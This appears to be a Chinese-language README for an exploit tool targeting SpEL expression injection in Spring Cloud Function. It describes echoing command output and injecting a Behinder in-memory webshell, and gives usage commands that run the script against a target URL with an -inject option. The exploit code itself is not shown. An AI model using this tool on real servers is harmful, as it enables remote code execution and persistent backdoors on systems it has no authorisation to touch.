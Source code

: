 # Spring-cloud-function-SpEL-RCE
针对Spring-cloud-function-SpEL表达式注入进行回显和内存马注入的exp

2022.10.17修改 
spring2.6.x后续版本注册方式改变，更新后支持后续spring版本内存马注入。

# 使用
回显探测
<img width="800" alt="image" src="https://user-images.githubusercontent.com/38367493/165876663-0e050317-7852-4f91-a683-1a060b5dfdd6.png">

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="565" alt="image" src="https://user-images.githubusercontent.com/38367493/165876405-edbbee29-bb5c-4cc3-a03c-881b8a9d9c4b.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

